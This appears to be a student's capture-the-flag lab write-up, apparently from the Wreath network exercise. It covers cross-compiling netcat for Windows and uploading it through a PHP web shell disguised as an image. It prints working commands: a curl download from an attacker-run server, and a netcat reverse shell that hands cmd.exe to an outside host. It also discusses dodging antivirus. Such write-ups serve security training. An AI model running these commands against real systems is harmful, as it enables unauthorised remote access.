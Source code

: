 
Now we have a shell payload which for the time being is not detected by the AV so will compile it using netcat and reverse shell

We have serveral options:
- PowerShell but it may get detected
- PHP reverse shell it may also get picked up
- Msfvenom may generate a distinctive we could use [Veil Framework](https://www.veil-framework.com/) or Shelter
- Uploading netcat is the quickest and easy option.


What is cross-compilation techniques ?_?
The idea is to compile source code into a working program to run on a different platform.
It's an cross compilation skill although in many ways it's preferable to avoid it.

Always try to compile code into an environment as close to the target environment as possible.
Cross-compile x64 windows programs on kali using the mingw-64 package.

It's a big package but just like gcc used to compile binaries on Linux, we can use the mingw compilers to compile windows binaries.

Will run make to build the binary the correct compiler will be used to generate a x64 windows
executable. Note there will be a lot of warnings generated by the compiler.

We have to download the nc.exe from the github and compile it on kali linux.
https://github.com/int0x33/nc.exe/
```
CC=x86_64-w64-mingw32-gcc
```

MakeFile:
![[Pasted image 20240114204304.png]]


Package:
```
sudo apt install mingw-w64
```

![[Pasted image 20240114204927.png]]

Note we have to remove or mv the already compiled binary in order for this to get working.


```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=certutil.exe
```
![[Pasted image 20240114230338.png]]

Certutil is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

```
python3 -m http.server 80
```

As the curl command returned nothing when we were running it on the command line but
```
curl http://10.50.86.241/nc.exe -o c:\\windows\\temp\\nc-sardarji.exe
```
![[Pasted image 20240114231420.png]]

Now we have everything we want for a reverse shell
So will set up a listner and we are good to go
```
nc -lvnp 4242
```

```
powershell.exe c:\\windows\\temp\\nc-sardarji.exe 10.50.86.241 4242 -e cmd.exe
```

The site got hung which means we got a shell
![[Pasted image 20240114231903.png]]

_**Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early._

